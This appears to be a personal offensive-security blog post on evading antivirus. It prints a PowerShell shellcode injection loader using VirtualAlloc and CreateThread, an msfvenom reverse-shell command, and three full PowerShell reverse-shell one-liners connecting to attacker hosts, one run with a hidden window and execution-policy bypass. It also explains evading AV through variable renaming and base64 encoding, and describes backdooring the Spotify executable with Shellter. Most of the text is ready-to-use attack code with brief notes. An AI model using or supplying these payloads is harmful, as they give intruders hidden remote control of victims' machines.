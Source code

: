 ```yaml
---
layout: post
title: Evading AV
titledate: 09/09/23
tags: ["infosec","offsec", "exploit", "evasion", "shell", "powershell", "shellter"]
---
```


#### Evading Avira

One technique is to use variable obfuscation or randomization

AVs generally match text files pretty closely so we can try to randomize variables when possible

The following is a known powershell memory injection script

```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

The script imports VirtualAlloc and CreateThread from kernel32 and then memset from msvcrt

This script allows us to allocate memory and execute code in a newly created thread for the current powershell process

we can use msfvenom to create our shellcode payload

    $ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f powershell -v sc

to avoid AV detection we can try to randomize the variable names

#### Further Evading

If this script is still detected we can try to use a powershell one liner reverse shell 

### $ $client = New-Object System.Net.Sockets.TCPClient("192.168.45.154",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

And

    $ powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.168.1.1",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

And

    $ powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.1.1',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"


And then we can encode it with this script https://github.com/darkoperator/powershell_scripts/blob/master/ps_encoder.py 

This script takes a powershell command and base64 encodes it to be passed as a parameter to powershell

#### Automate Evasions with Shellter

shellter is a shellcode injection tool

we can run the tool in Auto or Manual mode

enable stealth mode to continue normal application execution after the exploit code is triggered

in the following example we inject a payload in the spotify executable

- img

now we can send our payload to our windows system

i do this with by hosting a python upload download server

    $ python3 -m uploadserver

### NOTE: if receiving a connect from the victim server but shell terminates with netcat, setup meterpreter listener or try stageless payload


